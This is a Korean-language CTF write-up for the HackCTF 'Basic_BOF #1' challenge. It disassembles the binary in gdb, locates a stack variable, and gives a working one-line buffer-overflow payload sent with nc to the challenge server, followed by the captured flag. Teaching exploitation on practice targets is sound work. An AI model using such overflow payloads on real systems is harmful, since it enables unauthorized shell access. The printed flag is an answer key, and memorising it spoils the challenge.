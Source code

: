 #Basic_BOF \#1

---

전체 code는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x080484cb <+0>:	lea    ecx,[esp+0x4]
   0x080484cf <+4>:	and    esp,0xfffffff0
   0x080484d2 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484d5 <+10>:	push   ebp
   0x080484d6 <+11>:	mov    ebp,esp
   0x080484d8 <+13>:	push   ecx
   0x080484d9 <+14>:	sub    esp,0x34
   0x080484dc <+17>:	mov    DWORD PTR [ebp-0xc],0x4030201
   0x080484e3 <+24>:	mov    eax,ds:0x804a040
   0x080484e8 <+29>:	sub    esp,0x4
   0x080484eb <+32>:	push   eax
   0x080484ec <+33>:	push   0x2d
   0x080484ee <+35>:	lea    eax,[ebp-0x34]
   0x080484f1 <+38>:	push   eax
   0x080484f2 <+39>:	call   0x8048380 <fgets@plt>
   0x080484f7 <+44>:	add    esp,0x10
   0x080484fa <+47>:	sub    esp,0x8
   0x080484fd <+50>:	lea    eax,[ebp-0x34]
   0x08048500 <+53>:	push   eax
   0x08048501 <+54>:	push   0x8048610
   0x08048506 <+59>:	call   0x8048370 <printf@plt>
   0x0804850b <+64>:	add    esp,0x10
   0x0804850e <+67>:	sub    esp,0x8
   0x08048511 <+70>:	push   DWORD PTR [ebp-0xc]
   0x08048514 <+73>:	push   0x804861c
   0x08048519 <+78>:	call   0x8048370 <printf@plt>
   0x0804851e <+83>:	add    esp,0x10
   0x08048521 <+86>:	cmp    DWORD PTR [ebp-0xc],0x4030201
   0x08048528 <+93>:	je     0x8048543 <main+120>
   0x0804852a <+95>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x08048531 <+102>:	je     0x8048543 <main+120>
   0x08048533 <+104>:	sub    esp,0xc
   0x08048536 <+107>:	push   0x8048628
   0x0804853b <+112>:	call   0x8048390 <puts@plt>
   0x08048540 <+117>:	add    esp,0x10
   0x08048543 <+120>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x0804854a <+127>:	jne    0x804857c <main+177>
   0x0804854c <+129>:	sub    esp,0xc
   0x0804854f <+132>:	push   0x8048644
   0x08048554 <+137>:	call   0x8048390 <puts@plt>
   0x08048559 <+142>:	add    esp,0x10
   0x0804855c <+145>:	sub    esp,0xc
   0x0804855f <+148>:	push   0x804866e
   0x08048564 <+153>:	call   0x80483a0 <system@plt>
   0x08048569 <+158>:	add    esp,0x10
   0x0804856c <+161>:	sub    esp,0xc
   0x0804856f <+164>:	push   0x8048678
   0x08048574 <+169>:	call   0x8048390 <puts@plt>
   0x08048579 <+174>:	add    esp,0x10
   0x0804857c <+177>:	mov    eax,0x0
   0x08048581 <+182>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048584 <+185>:	leave  
   0x08048585 <+186>:	lea    esp,[ecx-0x4]
   0x08048588 <+189>:	ret    
End of assembler dump.
```

이 코드의 내용은 buf에 45bytes만큼 입력을 받아서 bufferoverflow를 통해서 check라는 변수를 0xdeadbeef로 바꾸면 shell을 열어주는 코드이다. 이를 위해서 A*32를 입력한다음 stack을 보았다.

    gdb-peda$ x/20wx $ebp-0x40
    0xffffce48:	0xf7fb65a0	0xf7fd31b0	0x00008000	0x41414141
    0xffffce58:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffce68:	0x41414141	0x41414141	0x41414141	0xffff000a
    0xffffce78:	0xffffcf3c	0x04030201	0xf7fb63dc	0xffffcea0
    0xffffce88:	0x00000000	0xf7e1c637	0xf7fb6000	0xf7fb6000

보면 buf의 시작주소는 0xffffce54이고, check의 주소는 0xffffce7c이다. 때문에 dummy를 40bytes를 채우고, 0xdeadbeef를 입력하면 shell을 따낼 수 있다.


    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/1.Basic_Bof#1$ (python -c "print 'A'*40+'\xef\xbe\xad\xde'";cat) | nc ctf.j0n9hyun.xyz 3000
    ls
    flag
    main
    cat flag
    HackCTF{f1r57_574ck_buff3r_0v3rfl0w_5ucc355}

**flag: HackCTF{f1r57_574ck_buff3r_0v3rfl0w_5ucc355}**